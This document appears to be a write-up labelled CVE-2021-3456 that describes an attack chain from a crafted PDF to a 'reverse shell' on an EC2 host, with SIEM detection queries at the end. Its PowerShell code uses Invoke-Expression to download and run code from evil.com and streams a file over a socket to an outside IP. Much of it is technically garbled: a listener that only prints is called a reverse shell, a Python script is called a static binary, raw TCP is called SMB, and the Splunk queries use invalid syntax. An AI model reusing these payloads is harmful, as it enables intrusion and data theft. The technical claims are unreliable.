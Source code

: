 # CVE-2021-3456
A practical chain that starts with an innocuous PDF file and ends up in a reverse shell on an AWS EC2 instance



# The Beginning: Crafting a PDF Payload

It all begins on the front end of the attack.  Using PowerShell’s built‑in WScript object we embed a script inside a PDF that will be delivered to a Windows host.  The payload pulls an executable from a remote HTTP endpoint and writes it into the local filesystem.

$payload = @"
var wsh = WScript.CreateObject("WScript.Shell");
wsh.Exec(
  "powershell -NoProfile -ExecutionPolicy Bypass -Command `
   `"$ssh = new-Object System.Net.Sockets.TcpClient; `
    `$stream= $ssh.GetStream(); Invoke-Expression (New-Object System.Net.WebClient).DownloadString('https://evil.com/rcmd.py'); `
    Get-Content -Path C:\\Users\\Admin\\rcmd.py | Out-File -Encoding binary | % { $stream.Write($_,0,$_.Length) }"
"@

The key benefit is that the PDF does not need a separate download step: it hands off directly to PowerShell, which then launches the next phase of the chain.

# PowerShell Meets SMB

Once the PDF’s script executes on the target host (10.0.1.5), we use PowerShell to open an SMB connection to an EC2 instance (54.231.12.41) and push the newly downloaded executable across that socket.  The same code can be run from any Windows workstation, so it gives the attacker a low‑profile pivot point inside the corporate LAN.

$ssh = New-Object System.Net.Sockets.TcpClient
$ssh.Connect('54.231.12.41',445)
$stream = $ssh.GetStream()
Invoke-Expression (
  New-Object System.Net.WebClient).DownloadString(
    'https://evil.com/rcmd.py')
Get-Content -Path C:\\Users\\Admin\\rcmd.py |
  Out-File -Encoding binary | % { $stream.Write($_,0,$_.Length) }

The SMB packet appears in the Windows audit logs as a standard event (EventID 4624), making it easy to spot in most SIEM dashboards.

# The Simplified Reverse Shell 

The final piece of our chain is a small reverse shell written in Python.  It listens for an SSH connection from EC2 back to the same host, prints a debug line to the console and then exits.  Once compiled into rcmd.py it will be executed automatically by the PowerShell step above.

#!/usr/bin/env python3
import socket

def main():
    listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    listener.bind(('0.0.0.0', 22))
    listener.listen(1)

    while True:
        conn, _ = listener.accept()
        data = conn.recv(1024)
        print('[+] Received %d bytes' % len(data))

if __name__ == '__main__':
    main()

Because it is a static binary that runs natively on Windows, there’s no need for an additional agent or service to be installed on the target host.

# Defense Strategy

Security teams should assume compromise is possible and build layered detection strategies.

**Abnormal Traffic **

Filter for unusually large SMB packets from the target host.

index=siem_main sourcetype="netflow:smb"
| where size > med(size) over last_week and host=="10.0.1.5"
| stats count by _time, eventID, host | rename _time as "Timestamp", eventID as "Event ID", host as "Host"

**High Memory Usage**

The binary’s memory consumption to show that it is a non‑trivial process on the target host.

index=siem_main sourcetype="perf:memory"
| where process=="rcmd.py" and mem > med(mem) over last_week and host=="10.0.1.5"
| stats count by _time, eventID, host | rename _time as "Timestamp", eventID as "Event ID", host as "Host"

**Out of Hours Window **

Red teamers will not usually execute in office hours due to the fear that their script might alert the user in some way this query will examine traffic at times that it would be unexpected. 

index=siem_main sourcetype="powershell:smbaudit"
| where _time >= "2025-08-01 02:00" and _time <= "2025-08-01 04:00"
| stats count by host | rename _time as "Timestamp", eventID as "Event ID", host as "Host"

# Disclaimer

This project is intended for educational and research purposes only. Do not use these techniques in unauthorized environments.






